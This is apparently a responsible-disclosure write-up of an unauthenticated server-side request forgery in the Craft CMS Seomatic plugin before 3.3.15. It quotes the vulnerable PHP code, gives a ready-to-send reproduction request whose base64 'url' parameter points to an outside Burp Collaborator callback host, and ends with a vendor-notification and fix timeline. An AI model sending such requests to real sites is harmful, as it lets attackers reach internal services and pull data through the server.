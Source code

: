 # Bonus. Server Side Request Forgery

Unauthorized Server Side Request Forgery at Craft CMS Seomatic plugin version before 3.3.15

### Details about vulnerability 
Controller FileController allows anonymous access by default. Function looks like:
```php
        $url = base64_decode($url);
        $robots = base64_decode($robots);
        $canonical = base64_decode($canonical);
        $url = UrlHelper::absoluteUrlWithProtocol($url);
        $contents = file_get_contents($url);
        $response = Craft::$app->getResponse();
```
Url parameter is base64 encoded malicious user host `http://3eif8shsnxsuvuyupt9o4bfwnntdh2.burpcollaborator.net/` is `aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8=`

### Step to reproduce

```html
GET /index.php?action=seomatic/file/seo-file-link&url=aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8= HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
![Seomatic SSRF](images/seomatic-ssrf.png)
![Seomatic SSRF](images/seomatic-ssrf-callback.png)

# Timeline

1. 13 Aug 2020 Vulnerabilities were discovered
2. 14 Aug 2020 Nystudio107 was informed about the vulnerabilities
3. 17 Aug 2020 fix released
4. CVE-ID to be done
5. XX Xxx Public disclosure
